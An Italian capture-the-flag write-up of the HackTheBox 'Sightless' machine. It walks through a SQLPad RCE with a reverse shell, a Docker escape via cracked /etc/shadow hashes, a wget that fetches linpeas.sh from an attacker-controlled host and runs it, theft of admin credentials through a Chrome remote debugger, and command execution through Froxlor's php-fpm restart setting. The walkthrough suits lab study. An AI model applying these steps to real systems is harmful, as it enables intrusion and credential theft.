# Sightless HTB challenge WRITEUP
Made by: [Gianlush](https://github.com/Gianlush/)

## Information Gathering
Come prima cosa si visita l'ip della challenge, viene visualizzato l'hostname `sightless.htb`, che verrà aggiunto al file `/etc/hosts` nel mentre si lancia una classica scansione nmap:
```bash
nmap -sC -sV -oA export/nmap
```
La scansione mostra un servizio FTP sulla porta 21, oltre al solito web-service sulla 80.



Navigando un po' sulla webpage si può intuire la presenza di 3 servizi principali in esecuzione:
- Una web interface per SQL: **SQLPad**
- Un server admin software: **Froxlor**
- Un qualche tipo di SQL DB



Cliccandoci sopra, veniamo rimandati ad un altro dominio: `sqlpad.sightless.htb`, da aggiungere come sempre ad `/etc/hosts`.

## SQLPad Exploitation
Appare un servizio per l'esecuzione di SQL query, di cui possiamo facilmente scoprire la versione dal menu `About`:

 

Cercando online la versione per potenziali exploit già esistenti si trova questo [link](https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944) che una volta [implementato](exploit-sqlpad.py) ed eseguito ci consente di ottenere una `reverse-shell` su cui risultiamo essere `root`. Questo fa pensare (e si conferma dopo) che si trova all'interno di un Docker.



## Docker Escape

Il file `docker-entrypoint.sh` in `/` ci conferma che ci troviamo dentro un Docker. A questo punto ho iniziato a cercare qualche file potenzialmente utile legato a Docker tramite:
```bash
find / -name docker* 2> /dev/null
```

Nel mentre ho lanciato il seguente comando sulla mia macchina, all'interno di una directory contenente `linpeas.sh` cosi da scaricarlo tramite `wget` sulla macchina vulnerabile:
```bash
$ python3 -m http.server 8000

$ wget http://{my_ip}:8000/linpeas.sh
```

Lo script ha trovato moltissimi file interessanti, tra cui `/etc/shadow` sul quale erano presenti 2 HASH relativi all'utente `root` e l'utente `michael`. Provando a crackare tali hash con `john` si ottiene:



La password per `root` non ci è molto utile dato che già lo siamo. Si potrebbe provare ad accedere tramite `ssh` all'utente `micheal` con la password appena trovata:

```bash
ssh micheal@sightless.htb #using insaneclownposse as password
```

Funziona! E siamo dentro la macchina come `user`, e possiamo anche leggere la prima flag:

```bash
cat ~/user.txt
```

## Privilege Escalation

Per prima cosa lancio vari comandi classici per capire meglio il contesto:
```bash
$ sudo -l
$ nestat -antp
$ cat /etc/passwd
$ find / -perm -4000 2>/dev/null
$ wget http://{my_ip}:{port}/linpeas.sh && chmod +x ./linpeas.sh && ./linpeas.sh
```
Linpeas è in grado di individuare un servizio in esecuzione avviato con l'opzione `--remote-debugging-port=0`, che viene segnalata come vulnerabilità grave. Facendo una [ricerca](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/) a riguardo si scopre che è possibile visualizzare il traffico di rete attraverso ChromeDebugger. Dato che l'opzione non specifica una porta, bisogna andare a tentativi per capire di quale si tratta, ed anche di quale servizio si sta inoltrando il traffico in Debug.

Alla prima domanda si può rispondere più facilmente, dato che solitamente la porta `8080` (che è in uso) è usata per web-application. Infatti, tramite una semplice ```wget http://localhost:8080``` si ottiene una risposta HTML. Si tratta probabilmente della pagina di admin riportata dentro `/etc/hosts` con dominio `admin.sightless.htb`.

### Froxlor Exploit
Si comincia, quindi, eseguendo il `Port Forwarding` di tale servizio tramite il seguente comando (sulla proprio macchina):

```bash
ssh -L 9090:localhost:8080 michael@sightless.htb
```

Ora, visitando `http://localhost:9090` dovremmo essere in grado di visualizzare il servizio. Potrebbe essere necessario inserire il nuovo dominio `admin.sightless.htb` all'interno del proprio file `/etc/hosts`, o usare `127.0.0.1` come indirizzo anzichè `localhost`.



Per verificare il traffico sul ChromeDebugger, eseguo lo stesso `Port Forwarding` sulla mia porta `9091` di tutte le altre porte aperte in modalità `LISTEN`, ad una ad una. Il tutto solo dopo aver aperto il browser Chrome al url `chrome://inspect/#devices` ed aver configurato il target `localhost:9091`. Appena beccata la porta giusta, su Chrome apparirà:



e cliccando su `Inspect` per poi andare nella sezione network, è possibile vedere l'admin che effettua il login e le credenziali che invia tramite la richiesta HTTP:



```
loginname: Admin
password: ForlorfroxAdmin
```

Tramite queste credenziali possiamo autenticarci su `Froxlor` come Admin.

Ho cercato online delle possibile CVE per Froxlor da sfruttare, ma niente che mi permettesse di eseguire codice. Tra l'altro essendo già Admin, non avrebbe molto senso cercare exploit di quel tipo, quanto piuttosto delle impostazioni particolari che è possibile manipolare per causare l'esecuzione di codice.

### FTP rabbit hole

Cercando sulla pagina Admin, ho trovato la sezione `Resources/Customers/` tramite la quale è possibile modificare la password di accesso per l'utente `web1`. Fatto questo, ed effettuato l'accesso con l'account web1, si nota il menu `FTP` dove è possibile ancora una volta cambiare la password di accesso. 

A questo punto provo a collegarmi in FTP sul server:

```bash
ftp sightless.htb
```



Ricevendo l'errore `550`, provo dunque ad usare `lftp` per instaurare una connessione con `SSL/TLS` (dopo aver disabilitato la verifica del certificato con `set ssl:verifiy-certificate false`):



Qui dentro possiamo trovare il file `Database.kdb`, cioè un file export del software `KeePass`, cioè un portachiavi virtuale contenente password. Provo subito quindi ad accedervi tramite il tool `kpcli` ma purtroppo non è presente nessuna entry al suo interno.

### php-fpm restart command

Indagando ulteriormente nel menu `PHP`, ho trovato nella sezione `PHP-FPM versions`, la dicitura `php-fpm restart command` che poteva essere modificata a piacere. Ho quindi cercato il modo per "riavviare" il servizio per poter far eseguire il comando di restart e ho fatto alcune prove inserendo come comando una semplice `touch /tmp/test`:



Ho quindi riavviato il servizio cliccando 2 volte sulla seguente spunta:



Ed ho aspettato che il comando venisse eseguito. Una volta avuta prova del successo. Ho eseguito nuovamente la stessa procedura per eseguire i seguenti comandi:

```bash
$ cp /root/root.txt /tmp/root.txt
$ chmod 777 /tmp/root.txt
```

Cioè ho copiato la flag e ho dato i permessi di lettura a chiunque, cosi da poter leggere e completare la challenge. 

Per evitare spoiler a chiunque altro, ho poi subito eliminato quel file.

